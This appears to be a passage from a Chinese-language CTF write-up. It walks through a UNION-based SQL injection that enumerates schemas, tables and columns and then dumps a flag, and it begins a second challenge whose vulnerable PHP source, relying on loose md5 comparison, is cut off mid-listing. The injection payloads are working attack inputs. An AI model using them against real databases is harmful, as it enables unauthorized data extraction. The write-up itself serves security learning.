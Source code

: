 #### 获取所有数据库名

输入 1 union select 1,group_concat(schema_name) from information_schema.schemata 回显，因此可以确定需要的东西就在easysql中

<img src="https://s1.ax1x.com/2020/10/15/0ooGcV.png" alt="0ooGcV.png" style="zoom:67%;" />



#### 爆表名

输入 1 union select 1,table_name from information_schema.tables where table_schema='easysql' 回显，因此 **flag 多半就在表 flaghere 中**

*一般最好用 group_concat() 包裹一下 table_name ，这里是我懒得加了，后面的 column_name 也是如此

<img src="https://s1.ax1x.com/2020/10/15/0ooD91.png" alt="0ooD91.png" style="zoom:67%;" />

#### 爆字段名

输入 1 union select 1,column_name from information_schema.columns where table_name='flaghere' 回显，因此 **只存在一个名为 flag 的字段**

<img src="https://s1.ax1x.com/2020/10/15/0oofNd.png" alt="0oofNd.png" style="zoom:67%;" />

#### 拿 flag

输入 1 union select 1,flag from flaghere 回显，拿到 flag

<img src="https://s1.ax1x.com/2020/10/15/0ooXNj.png" alt="0ooXNj.png" style="zoom:67%;" />



#### flag

```
flag{never_trust_user_input!}
```





### SheIsAlwaysTheBEST

> 了解 php 语言特性 ×
>
> 了解很多语言的特性 √

#### 源码：

```php
<?php
show_source(__FILE__);
include ("flag.php");
$a = $_GET['a'];
$b = $_GET['b'];
$c = $_POST['c'];
if (isset($a) & isset($b)) {
    if (ctype_alpha($a) & is_numeric($b) & md5((string)($a)) == md5((string)(($b)))) {
        if (isset($c)) {
            $c = json_decode($c);
            if ($c->key == $flag) {
                echo $flag;
            } else {
                echo 'Wrong c.<br>';
            }
        } else {
            echo 'give me a c.<br>';
        }
```